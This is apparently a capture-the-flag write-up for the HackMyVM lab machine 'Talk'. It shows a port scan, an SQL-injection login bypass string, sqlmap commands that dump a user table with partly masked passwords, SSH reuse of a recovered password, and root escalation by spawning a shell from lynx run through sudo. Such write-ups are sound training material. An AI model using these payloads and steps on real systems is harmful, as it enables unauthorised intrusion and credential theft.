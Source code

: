 # Talk - HackMyVM, writeup

## Port scan
```console
┌──(alienum㉿kali)-[~]
└─$ nmap 10.0.2.179   
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
## Login sql injection
```console
Username : admin' or '1'='1'-- -
Password : whateveryouwant
```
## POST request sql injection ( send_message.php )
- r.txt
```
POST /send_message.php HTTP/1.1
Host: 10.0.2.179
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 19
Origin: http://10.0.2.179
Connection: close
Referer: http://10.0.2.179/home.php
Cookie: PHPSESSID=m7ffe2uiavtmhbkmupt24lh2qi

msg=hi&id=1
```
#### SQLmap
```console
sqlmap -r r.txt --tables
```
```console
sqlmap -r r.txt --tables -D chat
```
```console
sqlmap -r r.txt --dump -D chat -T user
```
```
Database: chat
Table: user
[5 entries]
+--------+-----------------+-------------+-----------------+----------+-----------+
| userid | email           | phone       | password        | username | your_name |
+--------+-----------------+-------------+-----------------+----------+-----------+
| 5      | david@david.com | 11          | adrian*******   | david    | david     |
| 4      | jerry@jerry.com | 111         | thatsm********* | jerry    | jerry     |
| 2      | nona@nona.com   | 1111        | myfriend***     | nona     | nona      |
| 1      | pao@yahoo.com   | 09123123123 | pao             | pao      | PaoPao    |
| 3      | tina@tina.com   | 11111       | david********   | tina     | tina      |
+--------+-----------------+-------------+-----------------+----------+-----------+
```

## Reading the chat
```
 February 18, 2021 4:48:pm
nona: where is adrian?

February 18, 2021 4:49:pm
tina: he got hacked!

February 18, 2021 4:49:pm
jerry: all of us....

February 18, 2021 4:50:pm
nona: :(
```
- The hacker shuffle the passwords 
#### Correct username & password matching
```
nona  : thatsm*********
```
## SSH as nona
```console
┌──(alienum㉿kali)-[~]
└─$ ssh nona@10.0.2.179                                    
nona@10.0.2.179's password: thatsm*********
nona@talk:~$ ls
flag.sh  user.txt
nona@talk:~$
```
## Root
#### sudo -l

```console
nona@talk:~$ sudo -l
Matching Defaults entries for nona on talk:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nona may run the following commands on talk:
    (ALL : ALL) NOPASSWD: /usr/bin/lynx
```
####
```console
nona@talk:~$ sudo -u root /usr/bin/lynx
Spawning your default shell.  Use 'exit' to return to Lynx.

Press : SHIFT + 1

root@talk:/home/nona# cd
root@talk:~# ls
flag.sh  root.txt
root@talk:~#
```
## Thanks sML
